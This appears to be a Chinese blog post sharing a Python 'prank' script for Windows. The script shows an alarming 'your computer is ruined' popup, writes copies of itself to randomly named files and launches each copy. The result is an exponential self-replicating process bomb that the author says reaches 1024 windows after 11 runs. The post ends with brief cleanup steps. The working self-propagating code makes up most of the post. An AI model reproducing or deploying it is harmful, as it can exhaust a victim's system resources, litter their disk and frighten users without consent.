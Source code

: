 ```python
from tkinter import Tk
from tkinter.messagebox import showinfo,showwarning,showerror
from random import randint
from os import system,name

title = "Message"
message = "很不好意思，您的电脑废了"
loops = []
hide = Tk()
hide.withdraw()

def main(): # 实现自我繁衍
    global loops
    randwindow = randint(0,2)
    if randwindow == 0:
        showinfo(title,message)
    elif randwindow == 1:
        showwarning(title,message)
    else:
        showerror(title,message)
    with open(__file__,"r",encoding="utf-8") as f:
        text = f.read()
    for i in range(0,2):
        content = "./%d.py" % randint(100000,999999)
        with open(content,"w",encoding="utf-8") as f:
            f.write(text)
        loops.append(content)
    for i in range(0,2):
        system("start /min cmd /c python %s" % loops[i])

# 此程序仅可在Windows系统运行
if __name__ == "__main__" and name == "nt":
    main()
else:
    showerror("Message","无法运行程序，原因可能是：\n①(1)您非主动运行程序。\n(2)这个程序不能在当前系统下运行，请尝试其他操作系统。")
    exit()
hide.mainloop()

```
这个程序没把我气死。
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/894416a1d4c64574855c2a97ed27cf0b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5r2Y6YGT54a5,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/0d4bef4920fd4f33990c151d1b8e2d2c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5r2Y6YGT54a5,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/fadfa73c59264a56a686cedf667034c3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5r2Y6YGT54a5,size_20,color_FFFFFF,t_70,g_se,x_16)
**按照这样，11次运行后，就能生成`1024`个窗口！！**
怎么关掉呢？？？
第一步干掉进程：`py.exe`和`cmd.exe`。
第二步干掉生成的文件：![在这里插入图片描述](https://pic.2ge.org/cdn/?url=https://img-blog.csdnimg.cn/b05a78a772dd4d498394e17bf5d334f7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5r2Y6YGT54a5,size_20,color_FFFFFF,t_70,g_se,x_16)
好 家 伙
